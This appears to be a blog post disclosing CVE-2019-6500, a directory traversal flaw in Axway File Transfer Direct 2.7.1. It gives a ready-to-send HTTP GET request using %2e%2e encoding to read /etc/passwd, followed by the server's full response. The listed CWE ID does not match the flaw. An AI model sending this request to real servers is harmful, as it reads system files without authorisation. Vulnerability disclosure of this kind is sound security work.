 ```yaml
---
layout: post
title:  "Directory Traversal in Axway File Transfer Direct"
date:   2019-01-20 19:51:02 +0700 
categories: [cve]
---
```


* CVE ID: CVE-2019-6500
* CWE ID: CWE-259

Vendor: Axway

Product: Axway File Transfer Direct, (The product is discontinued. Use the lastest version of this product.)

Version affected:  2.7.1

Axway is a software and services company registered in France with headquarters in Phoenix, Arizona. Established in 2001, Axway serves more than 11,000 organisations in 100 countries, with offices around the globe. Their award-winning products, solutions and services enable the business-critical transactions required to accelerate performance within and among enterprises - while providing management, security and governance on interactions throughout business networks.

#### Product description:

File Transfer Direct is an ad hoc file exchange solution that brings enterprise-class managed file transfer (MFT) capabilities to familiar email interfaces and web-based clients. File Transfer Direct transparently applies administrator-defined policies while adding the security and audit capabilities required for corporate governance and regulatory compliance.

#### Finding:

The unauthenticated Directory Traversal vulnerability can be exploited by issuing a specially crafted HTTP GET request utilizing a simple bypass, %2e%2e instead of (/),URL encoding.

Example:
{% highlight ruby %}

REQUEST:
GET /h2hdocumentation//%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: a.b.c.d
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
{% endhighlight %}

{% highlight ruby %}

RESPONSE:
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 1713
Date: Tue, 23 Jan 2018 03:42:11 GMT
Connection: close

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
clam:x:100:102:Clam Anti Virus Checker:/var/clamav:/sbin/nologin
nocpulse:x:101:103:NOCpulse user:/var/lib/nocpulse:/bin/bash
hpsmh:x:500:500::/opt/hp/hpsmh:/sbin/nologin
ftd:x:20230:20000:ftd:/home/ftd:/bin/bash
nrpe:*:20231:20231:nrpe:/home/nrpe:/sbin/nologin
tss:x:102:105:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
stunnel:x:20009:20011:user stunnel:/dev/null:/bin/false
_lldpd:x:103:501::/home/_lldpd:/bin/bash
{% endhighlight %}

#### References:
1. https://www.owasp.org/index.php/Path_Traversal
2. https://www.axway.com/
3. Axway File Transfer Direct - http://infosightsol.com/wordpress/wp-content/uploads/2012/11/Axway_Datasheet_File_Transfer_Direct_EN.pdf
